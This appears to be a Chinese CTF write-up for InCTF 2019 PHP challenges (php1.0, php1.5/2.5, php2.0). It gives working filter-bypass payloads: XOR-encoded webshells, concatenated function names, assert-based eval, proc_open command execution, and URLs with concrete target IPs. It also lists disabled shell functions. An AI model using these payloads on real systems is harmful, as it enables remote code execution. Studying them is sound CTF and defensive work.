










php1.0
1 | File doesn't exist |
代码分析：可控有两个参数$thisfille、$input
$input传入参数会被eval执行，但是之前需要经过get_defined_functions()['internal']，过滤所有php内置函数
思路一：无字母webshell
1 | ?input=$b=${%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff}[a];eval($b);&thisfile=/var |

思路二：字符串拼接

$b=p.h.p.i.n.f.o;$b();

函数禁用
1 | pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,system,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,error_log,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir |
os命令执行
proc_open函数未被禁用
函数参考链接:https://www.php.net/manual/zh/function.proc-open.php
$process中存储返回proc_open函数,stream_get_contents输出内容
1 | /?input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w'));$pxpes=array();$process=eval('return proc'.$thisfille[8].'open("/readFlag",$descr,$pxpes);');eval('echo(s'.'t'.'r'.'e'.'a'.'m'.$thisfille[8].'g'.'e'.'t'.$thisfille[8].'c'.'o'.'n'.'t'.'e'.'n'.'t'.'s($pxpes[1]));');&thisfile=/lib/x86_64-linux-gnu |

php1.5、php2.5
1 | //php2.5 |
1 | //php1.5 |
新增过滤
1 | exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\' |
payload1
1 | ?input=$b=%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff;$a=$$b;$c=c.u.r.r.e.n.t;$f=$c($a);$d=a.s.s.e.r.t;$d($f);&thisfile=/var |

不知道为啥，这里蚁剑连接只能用end函数取post数组
payload:http://3.16.218.96/?input=$b=%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff;$a=$$b;$c=e.n.d;$f=$c($a);$d=a.s.s.e.r.t;$d($f);&thisfile=/var

payload:http://18.223.159.46//?input=$b=%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff;$a=$$b;$c=e.n.d;$f=$c($a);$d=a.s.s.e.r.t;$d($f);&thisfile=/var

payload3(proc_open文件写到tmp)

php2.0
源码和2.5相同，不过php环境为7.1
参考链接：https://ctftime.org/writeup/16665
本地测试
EXP
1 |
|
上传该php文件到服务器
本地执行
1
2
3
4
5
6from pwn import *
s = remote('localhost', 80)
p = 'GET /pwn.php HTTP/1.1\r\n'
p += 'Host: localhost\r\n\r\n'
s.send(p)
s.interactive()执行环境必须是
php 7.1.32-1+ubuntu16.04.1+deb.sury.org+1 + apache2
py执行结果

参考链接
https://fireshellsecurity.team/inctf2019-php1-php15-php25/
https://ctftime.org/writeup/16595
特性总结
- php 对于ascii 0x7f默认为字符串
- eval、echo为语言结构不是函数
- eval的特性：只能执行一次代码
- rce参考一些常见的webshell思路
- _()为gettext()的别名